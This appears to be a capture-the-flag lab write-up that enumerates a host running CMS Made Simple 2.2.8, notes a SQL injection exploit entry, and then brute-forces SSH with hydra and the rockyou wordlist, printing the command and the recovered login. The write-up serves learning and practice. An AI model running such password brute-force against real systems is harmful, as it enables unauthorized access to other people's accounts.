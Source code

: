# 10.10.208.10
Nothing interesting in the source code of landing page

# nmap
```
21 - ftp
80 - http
2222 - ssh
```

# gobuster

```
/index.html
/robots.txt
/simple
```

# /robots.txt
```
Disallow: /openemr-5_0_1_3 
#
# End of "$Id: robots.txt 3494 2003-03-19 15:37:44Z mike $".
#
```
/openemr-5_0_1_3 won't open

# /simple
```
This site is powered by CMS Made Simple version 2.2.8
```

# searchsploit

```
Exploit Title

CMS Made Simple < 2.2.10 - SQL Injection 
```
Python2 is no longer supported, so I had to tweak it a little bit, but using python code provided by searchsploit we get:
```
Well, we got nothing. After 10 minutes of debugging hashlib errors I gave up and used hydra.
hydra -l mitch -P /usr/share/wordlists/rockyou.txt ssh://10.10.208.10:2222
[...] 
[2222][ssh] host: 10.10.208.10   login: mitch   password: secret
```